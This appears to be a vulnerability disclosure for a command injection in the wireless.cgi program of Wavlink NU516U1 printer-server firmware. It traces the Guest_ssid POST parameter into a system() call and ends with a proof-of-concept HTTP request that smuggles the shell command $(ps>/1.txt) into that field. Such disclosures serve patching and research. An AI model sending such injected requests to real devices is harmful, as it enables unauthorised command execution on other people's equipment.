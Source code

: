 



## Vulnerability Overview

Wavlink is a company specializing in networking devices and communication solutions, offering high-quality routers, range extenders, and network accessories. In its WAVLINK-NU516U1 model firmware — which provides printer server NIC functionality — the management console contains a command injection vulnerability, allowing attackers to execute OS commands.

Firmware download link:
 https://docs.wavlink.xyz/Firmware/fm-516u1/

------

## Code Audit

After extracting the firmware using the command `binwalk -Me [firmware file]`, we locate the `wireless.cgi` program and open it with IDA.

(The reverse-engineering process produces lengthy pseudocode; here we only include the key snippets displayed by IDA.)

In the `main` function (displayed as `ftext` in IDA), the program first retrieves the value of the `page` parameter submitted by the user.

![](Wavlink-english.assets/1.png)

If the `page` parameter is set to `GuestWifi`, the program jumps to the `sub_4032E4` function.

![](Wavlink-english.assets/2.png)

Inside the `sub_4032E4` function, the program retrieves the value of the `Guest_ssid` parameter, which can be controlled via a POST request

![](Wavlink-english.assets/3.png)

The `Guest_ssid` parameter value is then passed into the `sub_407504` function.

![](Wavlink-english.assets/4.png)

Within that function, it is concatenated into the `v8` variable and passed to the `system` function for execution, resulting in a command injection.

![](Wavlink-english.assets/5.png)

In the decompiled code, the `system` function appears to have an empty argument, but the assembly code still shows that its argument is `v8`.

## POC

```shell
POST /cgi-bin/wireless.cgi HTTP/1.1

Host: 10.10.10.2

Content-Length: 269

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.10.2

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.10.2/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```

